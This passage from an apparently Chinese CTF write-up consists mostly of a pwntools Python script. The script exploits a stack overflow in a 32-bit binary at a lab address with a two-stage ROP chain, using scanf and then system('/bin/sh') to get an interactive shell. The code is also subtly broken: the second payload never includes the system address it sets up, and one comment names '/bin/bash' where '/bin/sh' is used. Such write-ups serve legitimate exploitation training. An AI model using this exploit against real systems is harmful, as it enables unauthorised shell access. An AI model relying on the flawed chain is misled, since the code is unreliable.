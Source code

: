 然后再次利用ROP链调用system执行`system(“/bin/sh”)`。

完整的ROP链如下：

```python
  #!usr/bin/python
    #coding=utf-8
    #

    from pwn import *

    context.update(arch = 'i386', os='Linux', timeout = 1)
    io = remote('172.17.0.2',10001)

    elf = ELF('./pwn1')

    input_addr = p32(elf.symbols['__isoc99_scanf']) # plt表中scanf函数所在内存地址
    sys_addr = p32(elf.symbols['system'])  # plt表中的system函数所在的内存地址
    format_addr = p32(0x08048629) # 字符串%s的地址
    bin_addr = p32(0x0804A064)  # 写入字符串"/bin/bash"的地址
    main_addr = p32(0x08048531) # 主函数地址，用于第二次溢出调用system函数

    shellcode1 = 'A'*0x34
    shellcode1 += input_addr  # 调用scanf以从STDIN读取"/bin/sh"字符串
    shellcode1 += main_addr # scanf返回后到main函数
    shellcode1 += format_addr # scanf参数
    shellcode1 += bin_addr  # "/bin/sh"字符串所在地址


    shellcode2 = 'B'*0x2c
    sys_addr = p32(0x0804A018)  # 调用system函数
    shellcode2 += main_addr # 填补EIP的位置即system的返回地址，防止参数错位，地址可以任意
    shellcode2 += bin_addr  # 传入system的参数


    print io.read()
    io.sendline(shellcode1)
    sleep(0.1)
    # 等待程序执行，防止出错
    print io.read()
    io.sendline('/bin/sh')
    sleep(0.1)
    # 等待程序执行，防止出错
    print io.read()
    io.sendline(shellcode2)
    sleep(0.1)
    # 等待程序执行，防止出错
    io.interactive()

```

运行即可拿到shell：
